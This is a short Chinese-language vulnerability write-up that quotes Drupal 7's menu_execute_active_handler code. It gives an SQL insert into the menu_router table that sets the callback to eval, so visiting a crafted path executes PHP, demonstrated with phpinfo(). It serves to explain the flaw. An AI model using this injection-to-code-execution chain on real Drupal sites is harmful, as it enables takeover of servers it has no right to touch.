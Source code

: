 首先$path 作为变量是可控的

```
function menu_execute_active_handler($path = NULL, $deliver = TRUE) {
 $page_callback_result = _menu_site_is_offline() ? MENU_SITE_OFFLINE : MENU_SITE_ONLINE; 
$read_only_path = !empty($path) ? $path : $_GET['q']; drupal_alter('menu_site_status', $page_callback_result, $read_only_path); 
if ($page_callback_result == MENU_SITE_ONLINE) { 
         if ($router_item = menu_get_item($path)) {
              if ($router_item['access']) { 
                   if ($router_item['include_file']) { 
require_once DRUPAL_ROOT . '/' . $router_item['include_file']; } $page_callback_result = call_user_func_array($router_item['page_callback'], $router_item['page_arguments']);
 } else { $page_callback_result = MENU_ACCESS_DENIED; 
} } else { $page_callback_result = MENU_NOT_FOUND; } } }

if ($router_item['include_file']) { require_once DRUPAL_ROOT . '/' . $router_item['include_file']; }

```

包含了文件

**通过预编译注入向表中插入一个语句**

```
insert into menu_router (path, page_callback, access_callback, include_file) values ('<?php phpinfo();?>','eval', '1', 'modules/php/php.module');

```

path 为要执行的代码； include_file 为 PHP filter Module 的路径； page_callback 为 eval； access_callback 为 1（可以让任意用户访问）。 访问地址即可造成 RCE。

![enter image description here](img/img3_u103_jpg.jpg)
